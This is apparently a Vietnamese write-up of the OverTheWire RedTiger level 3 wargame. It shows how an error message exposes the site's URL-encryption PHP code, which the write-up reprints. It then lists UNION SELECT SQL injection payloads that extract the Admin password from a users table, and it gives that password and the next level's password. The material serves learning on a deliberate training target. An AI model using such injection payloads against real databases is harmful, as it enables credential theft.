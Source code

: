 http://redtiger.labs.overthewire.org/level3.php
```sh
Target: Get the password of the user Admin.
Hint: Try to get an error. Tablename: level3_users


Show userdetails: 
TheCow
Admin
```

- click vô thử `TheCow` và `Admin` thì được chuyển đến trang có dạng `level3.php?usr=MDQyMjExMDE0MTgyMTQw`. Có thể thấy `usr=` biểu thì WHERE usr= và tên username đã bị mã hõa `Admin thành MDQyMjExMDE0MTgyMTQw`

- Giờ ta phải xem nó được xử lí như thế nào khi mã hóa bằng cách thêm `[]` sau usr: `level3.php?usr[]=MDQyMjExMDE0MTgyMTQw`

<img src="http://i.imgur.com/HtPGLes.jpg">

Thông báo lỗi xuất hiện `Warning: preg_match() expects parameter 2 to be string, array given in /var/www/html/hackit/urlcrypt.inc on line 25`

- Dựa vào đó ta truy cập vào `http://redtiger.labs.overthewire.org/urlcrypt.inc` để xem nó đã mã hóa như thế nào. Chúng ta được 1 trang mới chứa code PHP để mã hóa cũng như giải mã

- Bạn có thể đọc code để hiểu quá trình mã hóa. Ở đây mình chỉ lấy đoạn code mà thưck hiện quá trình **encode** thôi. Sử dụng http://www.writephponline.com/ để chạy code

```sh
function encrypt($str)
	{
		$cryptedstr = "";
		srand(3284724);
		for ($i =0; $i < strlen($str); $i++)
		{
			$temp = ord(substr($str,$i,1)) ^ rand(0, 255);
			
			while(strlen($temp)<3)
			{
				$temp = "0".$temp;
			}
			$cryptedstr .= $temp. "";
		}
		return base64_encode($cryptedstr);
	}
  ```
  
  - Tiếp theo thực hiện các bước check lỗi sql injection:
  
  1. xem số cột bị lỗi: `' UNION SELECT 1,2,3,4,5,6,7#` . Sử dụng dấu`' và #` vì để bỏ qua việc check where và comment đây là đoạn HASH vì chúng ta mã hóa mà
  
  <img src="http://i.imgur.com/UlAjGNC.jpg">
  
  2. Vậy là ở đây có 5 cột bị lỗi: `username cột 2, first name cột 6,name cột 7,icq cột 5, email cột 4`
  
  - Chúng ta sẽ lần lượt khai thác thông tin lỗi từ các cột này
  
  `' UNION SELECT 1,username,3,password,5,6,7 FROM level3_users WHERE username='Admin'#`
  
  <img src="http://i.imgur.com/0Pe47fY.jpg">
  
  Username: 	Admin
  
  Password:   thisisaverysecurepasswordEEE5rt

The password for the next level is: there_is_no_bug 

